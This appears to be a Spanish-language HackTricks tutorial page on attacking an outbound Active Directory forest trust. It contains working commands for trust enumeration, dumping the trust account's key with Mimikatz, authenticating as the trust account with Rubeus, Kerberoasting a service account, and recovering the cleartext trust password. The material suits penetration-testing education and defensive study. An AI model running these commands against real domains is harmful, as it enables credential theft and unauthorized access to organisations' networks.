 # Dominio de Bosque Externo - Unidireccional (Saliente)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

En este escenario **tu dominio** está **confiando** algunos **privilegios** a un principal de **diferentes dominios**.

## Enumeración

### Confianza Saliente
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Una vulnerabilidad de seguridad existe cuando se establece una relación de confianza entre dos dominios, identificados aquí como dominio **A** y dominio **B**, donde el dominio **B** extiende su confianza al dominio **A**. En esta configuración, se crea una cuenta especial en el dominio **A** para el dominio **B**, que juega un papel crucial en el proceso de autenticación entre los dos dominios. Esta cuenta, asociada con el dominio **B**, se utiliza para encriptar tickets para acceder a servicios a través de los dominios.

El aspecto crítico a entender aquí es que la contraseña y el hash de esta cuenta especial pueden ser extraídos de un Controlador de Dominio en el dominio **A** utilizando una herramienta de línea de comandos. El comando para realizar esta acción es:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Esta extracción es posible porque la cuenta, identificada con un **$** después de su nombre, está activa y pertenece al grupo "Domain Users" del dominio **A**, heredando así los permisos asociados con este grupo. Esto permite a los individuos autenticarse contra el dominio **A** utilizando las credenciales de esta cuenta.

**Advertencia:** Es factible aprovechar esta situación para obtener un acceso inicial en el dominio **A** como usuario, aunque con permisos limitados. Sin embargo, este acceso es suficiente para realizar enumeración en el dominio **A**.

En un escenario donde `ext.local` es el dominio de confianza y `root.local` es el dominio confiado, se crearía una cuenta de usuario llamada `EXT$` dentro de `root.local`. A través de herramientas específicas, es posible volcar las claves de confianza de Kerberos, revelando las credenciales de `EXT$` en `root.local`. El comando para lograr esto es:
```bash
lsadump::trust /patch
```
Siguiendo esto, uno podría usar la clave RC4 extraída para autenticarse como `root.local\EXT$` dentro de `root.local` utilizando otro comando de herramienta:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Este paso de autenticación abre la posibilidad de enumerar e incluso explotar servicios dentro de `root.local`, como realizar un ataque Kerberoast para extraer credenciales de cuentas de servicio utilizando:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Recolección de la contraseña de confianza en texto claro

En el flujo anterior se utilizó el hash de confianza en lugar de la **contraseña en texto claro** (que también fue **extraída por mimikatz**).

La contraseña en texto claro se puede obtener convirtiendo la salida \[ CLEAR ] de mimikatz de hexadecimal y eliminando los bytes nulos ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

A veces, al crear una relación de confianza, el usuario debe escribir una contraseña para la confianza. En esta demostración, la clave es la contraseña de confianza original y, por lo tanto, legible por humanos. A medida que la clave cambia (cada 30 días), el texto claro no será legible por humanos, pero técnicamente seguirá siendo utilizable.

La contraseña en texto claro se puede usar para realizar autenticación regular como la cuenta de confianza, una alternativa a solicitar un TGT utilizando la clave secreta de Kerberos de la cuenta de confianza. Aquí, consultando root.local desde ext.local para miembros de Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Referencias

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
